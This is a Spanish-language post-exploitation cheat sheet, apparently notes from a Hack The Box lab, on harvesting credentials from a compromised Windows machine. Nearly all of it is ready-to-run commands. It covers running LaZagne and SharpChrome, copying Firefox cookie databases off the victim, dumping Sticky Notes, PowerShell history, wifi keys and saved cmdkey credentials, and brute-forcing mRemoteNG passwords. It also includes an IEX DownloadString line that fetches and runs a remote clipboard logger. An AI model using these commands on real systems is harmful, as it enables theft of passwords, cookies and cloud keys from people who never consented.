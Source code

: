 Como primer herramienta podemos buscar (si estamos por rdp) podemos usar el buscador de windows con las siguientes palabras, talvez aparezcan ficheros con contraseñas guardadas:

- Passwords	
- Passphrases	
- Keys
- Username	
- User account	
- Creds
- Users	
- Passkeys	
- Passphrases
- configuration	
- dbcredential	
- dbpassword
- pwd	
- Login	
- Credentials

Lo siguiente que podemos hacer es unsar lazagne 

https://github.com/AlessandroZ/LaZagne/releases/

Una vez que lo metimos en la pc victima lo corremos con:

    start lazagne.exe all

#### también podemos usar el findr por cmd:

    findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml

#### Powershell History

    gc (Get-PSReadLineOption).HistorySavePath

#### Podemos también en un oneliner recorrer todos los archivos historicos de powershell a los que tenemos acceso

    foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}

#### El archivo unnatend.xml puede tener contraseñas también

#### Buscar archivos en base a una palabra:

    findstr /spin "password" *.* 

#### Buscar con powershell
    select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password

#### BUscar una palabra en base a una extensión:
    dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

#### Extraer contraseñas de sticky notes
Las sticky notes (aunque no lo demuesten) son una base de datos.

Esta base de datos se encuentra en:

C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite

Podemos acceder a ella y luego robarla para cargarla en nuestra pc atacante o dumpearla con powershell mediante PSSQLite.
##### Powershell local
- Import-Module .\PSSQLite.psd1
- $db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
- Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap

##### Linux:
- Robamos el archivo
- Corremos con strings

#### Cmdkey saved credentials
Podemos listar las keys guardadas en el cmd. En un entorno de AD podríamos llegar a encontrar contraseñas guardadas que nos permitan acceder a otros recursos con su ruta incluída.

        cmdkey /list

También podemos correr cosas como el usuario si tiene las creds guardadas en el cmd

        runas /savecred /user:inlanefreight\bob "COMMAND HERE"

#### Extraer credenciales de los browsers:
Podemos usar herramientas como sharpchrome para lograrlo

        .\SharpChrome.exe logins /unprotect

#### También traer contraseñas de chrome:

    gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password

#### Extraer contraseñas de firefox
Firefox guarda sus contraseñas en una sqlite

##### Robamos la sqlite de la victima
    copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
##### En la pc atacante:
    python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d

    
#### Extraer credenciales de Putty, Winscp, Filezilla, SuperPutty y RDP
para esto podemos usar SessionGopher

        Import-Module .\SessionGopher.ps1
        
        Invoke-SessionGopher -Target <Domain>

#### Clear-text passwords en el registro
        HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon

#### Contraseñas de wifi

##### 1) listamos las redes
        netsh wlan show profile
##### 2) Dumpeamos los datos
        netsh wlan show profile <red> key=clear

### mRemteNG
- mRemoteNG es un software que permite conectarse con sistemas remotos mediante VNC,RDP, SSH y otros.
- Guarda las credenciales en el archivo confCons.xml
- su contraseña por defecto es mR3m
- La ubicación de confCons.xml es <user>\appdata\roaming\mremoteng
  #### Desencriptar un password de mremoteng con la contraseña por default
      python3 mremoteng_decrypt.py -s "<password>"
  #### Desencriptar un mremoteng con custom password
      for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "<pass>" -p $password 2>/dev/null;done

### Obtener el clipboard
    IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
    Invoke-ClipboardLogger

---

### Obtener credenciales de AWS

Cuando realizamos una autenticación en AWS utilizando el cli o el sdk se enera un conjunto de credenciales que incluyen un Access Key Id y un Secret Access Key. Suele uardarse en:

    C:\Users\NombreDeUsuario\.aws\credentials
